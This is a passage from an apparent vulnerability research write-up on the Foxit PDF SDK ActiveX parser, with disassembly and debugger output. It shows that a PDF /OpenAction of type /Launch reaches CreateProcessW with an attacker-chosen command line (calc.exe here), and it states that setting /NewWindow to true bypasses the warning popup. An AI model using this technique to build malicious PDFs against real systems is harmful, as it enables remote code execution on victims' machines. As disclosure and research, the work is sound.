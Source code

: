 <p class="cn" markdown="1">Since this was an untouched PDF parser that is remotely accessible I decided to go after simple things like logic vulnerabilities. The first thing I decided to do was cross reference all calls to `CreateProcessW`. As it turns out there was a few actually.</p>

<p class="cn" markdown="1">But the most interesting was the one sub_1049FD60 at loc_104A0E80:</p>

```txt
.text:10481D95 loc_10481D95:                                         ; CODE XREF: sub_10481D10+81
.text:10481D95                 lea     ecx, [ebp+ProcessInformation]
.text:10481D98                 push    ecx                           ; lpProcessInformation
.text:10481D99                 lea     edx, [ebp+StartupInfo]
.text:10481D9C                 push    edx                           ; lpStartupInfo
.text:10481D9D                 push    0                             ; lpCurrentDirectory
.text:10481D9F                 push    0                             ; lpEnvironment
.text:10481DA1                 push    0                             ; dwCreationFlags
.text:10481DA3                 push    0                             ; bInheritHandles
.text:10481DA5                 push    0                             ; lpThreadAttributes
.text:10481DA7                 push    0                             ; lpProcessAttributes
.text:10481DA9                 push    eax
.text:10481DAA                 lea     ecx, [ebp+var_10]
.text:10481DAD                 call    sub_10163D59
.text:10481DB2                 push    eax                           ; lpCommandLine
.text:10481DB3                 push    0                             ; lpApplicationName
.text:10481DB5                 call    ds:CreateProcessW             ; rce
```

<p class="cn" markdown="1">This code is reached when parsing a PDF with an `/OpenAction` of type `/Launch`. I was also able to bypass any popup by setting the `/NewWindow` tag to true.</p>

```txt
Breakpoint 0 hit
eax=05de3fc4 ebx=05f58dc8 ecx=001dee6c edx=001dee18 esi=001dee94 edi=05b07f50
eip=04ae1db5 esp=001dede8 ebp=001dee7c iopl=0         nv up ei pl zr na pe nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00000246
FoxitPDFSDK_AX_Std!IReader_ContentProvider::CreateContentProvider+0x7c5:
04ae1db5 ff155403ce04    call    dword ptr [FoxitPDFSDK_AX_Std!DllCanUnloadNow+0x5da73 (04ce0354)] ds:0023:04ce0354={kernel32!CreateProcessW (75d5204d)}

0:000> du poi(@esp+4)
05de3fc4  "c:\Windows\System32\calc.exe"        <-- whatever we want

0:000> kv
ChildEBP RetAddr  Args to Child              
WARNING: Stack unwind information not available. Following frames may be wrong.
001dee7c 04ae2612 440f2825 05f58dc8 05ff3fd8 FoxitPDFSDK_AX_Std!IReader_ContentProvider::CreateContentProvider+0x7c5
001deecc 04ae27e6 05f10fe8 05ff3fd8 05b07f50 FoxitPDFSDK_AX_Std!IReader_ContentProvider::CreateContentProvider+0x1022
001deef8 04ae90be 05f58dc8 440f29c9 00000000 FoxitPDFSDK_AX_Std!IReader_ContentProvider::CreateContentProvider+0x11f6
001def20 0466c70f 001def74 05dbbf80 440f297d FoxitPDFSDK_AX_Std!IReader_ContentProvider::CreateContentProvider+0x7ace
001def94 046766f7 05d6cfd8 04f3d4c8 440f2925 FoxitPDFSDK_AX_Std!IReader_ContentProvider::GetDisplayStartDate+0x4caf
001defcc 046b789a 06339fd4 001def9c 046958f3 FoxitPDFSDK_AX_Std!DllUnregisterServer+0x328e
001df07c 046961f0 04ce7ea8 00000001 001df184 FoxitPDFSDK_AX_Std!IReader_ContentProvider::SetSource+0x2c106
001df114 1005cf6a 00000001 0000000f 0fe4c2b4 FoxitPDFSDK_AX_Std!IReader_ContentProvider::SetSource+0xaa5c
001df1e0 1004819a 0000000f 00000001 0000000b mfc140u+0x29cf6a
001df208 100a4a52 0000000f 00000001 0000000b mfc140u+0x28819a
001df230 00c83c87 001dfb64 0000000f 00000001 mfc140u+0x2e4a52
001df2a0 1001e03d 00000110 00000000 001df2dc image00c80000+0x3c87
001df2b0 7717c4b7 0009048a 00000110 0008047a mfc140u+0x25e03d
001df2dc 77195825 1001e000 0009048a 00000110 USER32!gapfnScSendMessage+0x1cf
001df358 771959c3 00000000 1001e000 0009048a USER32!CreateDialogParamW+0x225
```